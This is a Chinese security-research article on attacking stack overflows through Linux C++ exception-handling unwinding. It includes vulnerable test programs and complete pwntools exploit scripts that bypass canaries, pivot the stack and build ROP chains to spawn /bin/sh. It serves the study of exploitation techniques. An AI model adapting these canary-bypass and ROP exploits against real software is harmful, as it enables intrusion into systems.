









# 溢出漏洞在异常处理中的攻击手法-下 - 先知社区

溢出漏洞在异常处理中的攻击手法-下

- - -

> 本文针对的是Linux下的C++对应的异常处理，也就是对基于eh\_frame进行unwind的异常处理流程的攻击手法的研究。由于异常处理的流程和底层实现在不同操作系统和语言上有一定差距，需具体问题具体对待。上篇文章同发布于先知社区：[https://xz.aliyun.com/t/12967](https://xz.aliyun.com/t/12967)
> 
> 本篇将在上一篇的基础上，讨论研究chop的更多可能利用手法

## 从CHOP到ROP

同样使用上一篇的增加了`backdoor catch handler`的代码。为了方便测试使用`-no-pie -static -fomit-frame-pointer`三个参数，关于`-fomit-frame-pointer`参数将在下文介绍。

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

class x {
    public:
    char buf[0x10];
    x(void) {
        printf("x:x() called\n");
    }
    ~x(void) {
        printf("x:~x() called\n");
    }
};

void test() {
    x a;
    int cnt = 0x100;
    size_t len = read(0,a.buf,cnt);
    if(len > 0x10) {
        throw "Buffer overflow";
    }
}

void backdoor()
{
    try{
        printf("Here is backdoor!");
    }
    catch(const char* s) {
        printf("backdoor catch: %s\n", s);
    }
}

int main()
{
    try {
        test();
        throw 1;
    }
    catch(int x) {
        printf("Int: %d\n", x);
    }
    catch(const char* s) {
        printf("String: %s\n", s);
    }
    return 0;
}
```

### 基本思想

在上篇中，我们已知可以通过覆盖ret来进行不同的`catch handler`的调用,从而控制程序流，如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164655-34846ebc-7d4a-1.png)

在开始之前，我们需要补充两点前提：

-   在某些情况下，程序为了提高一定的性能或者节省寄存器空间，可以不依靠`rbp`来存储栈帧，而是仅通过`rsp`增减特定栈大小来调整栈位置。此时，在编译时需要用的gcc/g++的一个参数`-fomit-frame-pointer`。
    
-   另外这里补充一个关于Canary这中缓解措施的一个特性：**Cananry以及`__stack_chk_fail()`并不是在所有栈帧所有函数中均包含的，而是只放置在可能出现栈溢出的地方**
    

> \-fomit-frame-pointer  
> Omit the frame pointer in functions that don't need one. This avoids the instructions to save, set up and restore the frame pointer; on many targets it also makes an extra register available.

在清晰上述两点后，我们先用上篇的操作，将程序流劫持到`backdoor`函数的catch块中，并观察返回地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164708-3c0e54d6-7d4a-1.png)

这里ret将调用`__libc_start_call_main`，栈地址为`0x7ffd22bc5ef8`，而我们输入payload的地址为`0x7ffd22bc5eb0`。另外，由于Canary的特性，在这个`handler`里并没有Canary也不会进行检测。这意味着我们可以继续溢出，从而劫持`catch handler`的返回地址。

此时，解决**有canary的异常处理溢出问题**就变为了**非常简单的传统的无canary栈溢出问题**，此时直接结合传统的onegadget，ROP等等利用方式即可。

> 但是这里还是存在一个问题，上述利用手法中，我们潜藏了一个条件**就是溢出点的地址一定比catch handler拥有的栈地址低**，这是一定呢，还是巧合呢？
> 
> 考虑到异常处理的流程，其中一个核心部分叫做栈展开，或者说栈回退。意味着找到的catch handler对应的ret位置一定比输入点的栈地址高，所以绝大多数情况都是适用的。

### 实际测试

这里我们将payload增长，使其能够覆盖`handler`的ret的地址，并尝试让其调用`backdoor()`，测试payload如下

```plain
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(0x401B46) # address of backdoor
```

效果如图，发现可以的确可以劫持ret地址为`backdoor()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164725-46505a3e-7d4a-1.png)

更进一步，我们尝试用rop调用`sys_execve("/bin/sh",0,0)`来getshell. 这里由于没有找到`/bin/sh`的字符串，可以自己调用read读一个到已知地址去，最终成功getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164737-4d293132-7d4a-1.png)

#### 示例exp

本身测试代码比较简单，这里的exp只作为研究参考

```plain
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401b6e')

backdoor_try = 0x401B55  
io.recvuntil("called")
pop_rdi = 0x000000000040291c #: pop rdi ; ret
pop_rsi = 0x0000000000404009 #: pop rsi ; ret
pop_rdx_rbx = 0x000000000049775b #: pop rdx ; pop rbx ; ret
pop_rax = 0x0000000000462f37 #: pop rax ; ret
syscall = 0x000000000040fac9 #: syscall
read_addr = 0x4624D0
binsh = 0x4d7000 #
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(binsh)
payload += p64(pop_rdx_rbx)
payload += p64(0x8)
payload += p64(0)
payload += p64(read_addr)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(59)
payload += p64(syscall)
io.send(payload)
sleep(1)
io.sendline('/bin/sh\x00')

io.interactive()
```

### 小结

我们看到了在不使用rbp作为栈帧寄存器的情况下，可以利用异常处理的特性，使得canary防护无效化，大幅降低漏洞利用难度，配合传统栈溢出手法即可。几个关键点如下：

-   程序不使用rbp作为栈帧寄存器（即便使用rbp也可以配合栈转移解决，见下一节）
-   找到一个没有`__stack_chk_fail()`的handler（无检测的handler其实相当多，比如本例main原有的catch其实也没有检测）
-   溢出长度要较长一点（长度不足以直接ROP时可以尝试`onegadget`）

## CHOP与栈转移

前面说到要转化为传统直接的栈上ROP似乎有一个必要的前提：**不能使用rbp作为栈帧寄存器！**这种情况不能说没有，但毕竟比较少见。接下来，我们提升一下难度，不使用参数`-fomit-frame-pointer`进行编译，在这种情况下继续分析如何进一步利用。

为了方便测试，略微更改了一下代码，去除了`backdoor()`，增添了全局变量`name`

```plain
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char name[0x10];

class x {
    public:
    char buf[0x10];
    x(void) {
        printf("x:x() called\n");
    }
    ~x(void) {
        printf("x:~x() called\n");
    }
};

void test() {
    x a;
    int cnt = 0x100;
    size_t len = read(0,a.buf,cnt);
    if(len > 0x10) {
        throw "Buffer overflow";
    }
}

int main()
{
    try {
        puts("Hello, your name?");
        printf(">>");
        read(0,name,0x10);
        name[15] = '\0';
        test();
    }
    catch(const char* s) {
        printf("String: %s\n", s);
    }
    return 0;
}
```

### 基本思想

回想我们在上篇提到的覆盖rbp的来劫持手法，我提到其形式与传统的栈转移相当类似，可以劫持流到`[rbp+8]`的地址去。在上一篇我也用类似的方式将rbp改为got中的一段地址使其成功调用puts函数，如图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164817-653c511e-7d4a-1.png)

进一步考虑在本例中，我们已经拥有修改全局变量的能力（或者在一些堆题目中，我们可以做到任意地址写），那么我们可以利用类似栈转移的思想，直接在bss上放置`onegadget`或者构造ROP

### 实际测试

由于name的长度受限，ROP相对更有难度一些，大致利用思路如下:

-   首先通过name在bss段伪造栈底, ret设置为test函数，rbp仍设置为bss地址，就可以在bss的伪造栈上再次read导致溢出
-   第一次进入test溢出，rbp覆盖为name地址，再次跳转test
-   第二次进入test溢出，在bss上留下字符串`/bin/sh`以及`rop`片段信息
-   在bss上再次触发异常处理，利用rbp覆盖跳转到上一步留下的ROP片段

下面将详细说明每一步的内容

#### 覆盖rbp进行栈转移

首先用name来伪造一个栈底部，然后覆盖rbp为bss段的`name`变量地址，payload 构造如下

```plain
name_addr = 0x4D93D0 #变量name的地址，保证二次溢出时的栈帧仍在bss上
test_addr = 0x401a75 #test函数的地址，再次调用read溢出

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)
```

可以注意到在`catch handler`结束时，由于我们在bss上留下`[name_addr+8]==test_addr`，ret将再次进入`test()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164829-6cad5b32-7d4a-1.png)

并且由于此时栈帧已经被转移到了bss上，图中的栈帧和rsi可见，`read()`将在bss上做栈溢出

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164841-73a59b70-7d4a-1.png)

#### 构造二次溢出payload

这一步是整个流程中最麻烦的一步，如果真的通过再次使用异常处理的话，去触发ROP要考虑到以下几个方面:

-   留下`/bin/sh`字符串
-   留下构造好的ROP链
-   覆盖rbp保证异常处理结束的ret能够跳转至ROP
-   覆盖ret地址为`main()`内，保证能够寻找到main的`catch handler`
-   合理设置栈上内容，防止中途crash

要同时满足上述几个条件的难度较大，且成功率较低，因而这里我们可以换种思路。

既然bp此时是可控的，那完全可以直接劫持`read`函数自身的返回地址来触发rop，这样成功率更高。众所周知，在`call read`时，函数返回地址会push进入当前栈, 也就是`[rsp-8]`。而read第二个参数rsi又是依靠`[rbp-0x3c]`寻址，那么只需要让rbp和rsp直接空隙足够小，就可以调用`sys_read()`时覆盖`read()`对应栈帧的返回地址。

为了完成这个目的，就要将`test`函数里最开始的栈帧控制区域跳过，然后让rbp与rsp足够近即可。这里我将地址直接换成了read函数前

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164902-801a2542-7d4a-1.png)

那么第二轮的payload我们只需要考虑两部分内容即可

-   留下`/bin/sh`字符串
-   在read的ret地址处留下构造好的ROP链

第二次溢出payload构造如下:

```plain
payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)
```

可以看到在调用`read()`返回时，地址变为了刚刚读入的ROP链，最终成功getshell.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164907-83214018-7d4a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107164916-886b7ade-7d4a-1.png)

#### 示例exp

```plain
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./ehframe4')
def p():
    gdb.attach(proc.pidof(io)[0],'b read')

p()
name_addr = 0x4D93D0
test_addr = 0x401a9d

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)

pop_rdi = 0x000000000040286c #: pop rdi ; ret
pop_rdx_rbx = 0x000000000049769b #: pop rdx ; pop rbx ; ret 
pop_rsi = 0x0000000000403f59 #: pop rsi ; ret
pop_rax = 0x0000000000462e77 #: pop rax ; ret
syscall = 0x0000000000401bcd #: syscall
binsh = 0x4d93a0
main = 0x401B8C
io.recvuntil("called") 

payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)

io.send(payload)
io.interactive()
```

## 总结

经过上下两篇我们主要分析了在异常处理中，针对溢出漏洞的手法。通过混淆unwinder，我们可以实现以下效果:

-   使异常被其他函数拥有的`catch handler`捕获
-   利用libcc++内原有的**Gloden Gadget**实现任意函数调用
-   在不使用rbp的情况下，可以直接在其他合适的`catch handler`中进行ROP
-   在使用rbp的情况下，也可以配合其栈转移的效果，在bss这些地方做ROP

还有一些理论可行的方案，作者并没有测试成功。比如在`clean up`中，经常会有一些对象的析构函数，但是往往不会将指针置空，可以尝试用这些`clean up`来构造**UAF**；另外`clean up`并不会中断unwind的流程，一般会调用`_Unwind_Resume()`来继续流程，可以尝试用一些合适的`clean up`来构造某种执行链条(有点类似ROP的基本思想)。
